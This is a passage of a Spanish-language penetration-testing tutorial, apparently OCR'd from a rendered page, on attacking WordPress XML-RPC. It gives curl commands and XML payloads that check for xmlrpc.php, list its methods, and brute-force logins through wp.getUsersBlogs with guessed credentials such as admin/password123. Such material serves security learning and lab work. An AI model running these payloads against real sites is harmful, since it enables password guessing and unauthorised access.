 Primero debemos verificar si XML-RPC está habilitado en el sitio objetivo:

```bash
# Comprobar si xmlrpc.php está disponible
curl -s -X POST http://<IP>/xmlrpc.php
```

**Respuesta típica si está habilitado:**
```
XML-RPC server accepts POST requests only.
```

### 📄 Archivos XML para Explotación

Para interactuar con XML-RPC, necesitamos crear archivos XML específicos:

#### 1. Enumeración de métodos disponibles (`method_enum.xml`)

```xml
<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

Ejecución:
```bash
curl -X POST http://<IP>/xmlrpc.php -d @method_enum.xml
```

> [!example] Salida esperada
> La respuesta incluirá una lista de métodos disponibles, incluyendo:
> - `wp.getUsersBlogs`
> - `system.listMethods`
> - `wp.getUsers`
> - etc.

#### 2. Fuerza bruta de autenticación (`brute_force.xml`)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value><string>admin</string></value></param>
<param><value><string>password123</string></value></param>
</params>
</methodCall>
```

Ejecución:
```bash
curl -X POST http://<IP>/xmlrpc.php -d @brute_force.xml
```
